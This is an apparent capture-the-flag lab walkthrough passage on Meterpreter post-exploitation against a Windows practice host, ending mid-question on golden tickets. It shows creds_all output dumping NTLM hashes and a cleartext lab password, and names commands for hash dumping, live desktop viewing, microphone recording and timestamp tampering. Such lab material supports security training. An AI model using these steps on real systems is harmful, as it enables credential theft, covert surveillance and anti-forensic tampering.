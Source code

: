 ```
A: Password01
```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```

## Task 6 Post Exploitation

Q: What command allows us to dump all of the password hashes stored on the system? We won't crack the Administrative password in this case as it's pretty strong (this is intentional to avoid password spraying attempts)

A: Hash Dump

Q: While more useful when interacting with a machine being used, what command allows us to watch the remote user's desktop in real time?

A: Screenshare

Q: How about if we wanted to record from a microphone attached to the system?

A: record_mic

Q: To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this? Don't ever do this on a pentest unless you're explicitly allowed to do so! This is not beneficial to the defending team as they try to breakdown the events of the pentest after the fact.

A: timestomp

Q:Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this?
```